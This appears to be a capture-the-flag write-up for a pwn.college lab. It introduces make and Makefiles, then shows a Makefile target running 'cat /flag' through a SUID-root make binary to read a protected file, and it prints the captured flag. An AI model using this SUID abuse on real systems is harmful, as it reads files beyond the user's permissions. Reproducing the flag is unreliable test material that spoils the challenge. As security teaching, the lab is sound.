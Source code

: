 `make`

Let's talk about `make` program. Start with an example. Let's make a simple c program that prints `hello world`. I made a directory in my home directory `demo`. Let's create a c program `test.c`

```bash
hacker@program-misuse-level-26:~$ ls
Desktop
hacker@program-misuse-level-26:~$ mkdir demo
hacker@program-misuse-level-26:~$ ls
Desktop  demo
hacker@program-misuse-level-26:~$ cd demo
hacker@program-misuse-level-26:~/demo$ touch test.c
hacker@program-misuse-level-26:~/demo$ ls
test.c
```

Now write the program.

```c
#include<stdio.h>

int main()
{
  printf("Hello world\n");
  return 0;
}
```

Then we have to compile it. Go to terminal and write this command.

```bash
hacker@program-misuse-level-26:~/demo$ gcc test.c -o test
hacker@program-misuse-level-26:~/demo$ ls
test  test.c
hacker@program-misuse-level-26:~/demo$ ./test 
Hello world
```

`gcc test.c -o test` compile the `test.c` program and create a object file named `test`. If we run the `test` executable file, it prints `Hello world`. 

Now the main part. Let's suppose we change something in the source file `test.c` let's suppose we `world` to `World`. Now we have to run the same `gcc test.c -o test` command again. What about running a simple command that'll do all the compilation work for us. It'll reduce out pain.

Yes, here comes the `makefile`. If you create a `makefile` and put this `gcc` command in the `makefile` and then run `make` command. It will recompile the source file.

The conventional name for `makefile` is `Makefile, makefile, GNUmakefile`. Go through the `man make` , you will learn a lot.

A simple makefile is :

```
'target1':
	command
	...
	...
'target2':
	command
	...
	...
```

`target` are blocks. if you run `make target1`, only the commands in the `target1` will be executed. one important note here, you should give 1 `tab` amount of space under the `target` name. It's syntax. Otherwise you will see `Makefile:2: *** missing separator.  Stop.`

Our makefile here is :

```Makefile
build:
	gcc test.c -o test
	ls
	./test
```

Here `build` is the target. 


```bash
hacker@program-misuse-level-26:~/demo$ touch Makefile
hacker@program-misuse-level-26:~/demo$ ls
Makefile  test  test.c
hacker@program-misuse-level-26:~/demo$ make
gcc test.c -o test
ls
Makefile  test  test.c
./test
Hello World
```

Now if we add `cat /flag` in the `Makefile` it will print the content of the `flag` file. As the `make` command has been given the `SUID` permission, it allows `flag` file to be executed with permission of the file owner(in this case, `root`).

When you execute a command from a makefile which has been granted the `SUID` bit, the command inherits the permission of the root user. So when we run the `cat /flag`, as if we were the `root` user. That's why it prints the flag.

```Makefile
build:
	gcc test.c -o test
	ls
	./test
	cat /flag
```

```bash
hacker@program-misuse-level-26:~/demo$ make
gcc test.c -o test
ls
Makefile  test  test.c
./test
Hello World
cat /flag
cat: /flag: Permission denied
make: *** [Makefile:5: build] Error 1
hacker@program-misuse-level-26:~/demo$ /challenge/babysuid_level26 
Welcome to /challenge/babysuid_level26!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/make.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level26) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/make!
hacker@program-misuse-level-26:~/demo$ make
gcc test.c -o test
ls
Makefile  test  test.c
./test
Hello World
cat /flag
pwn.college{M_zDvIjfzLVFUh4Hs6m7Pgp_2u6.0FO2EDL0AjNzQzW}
```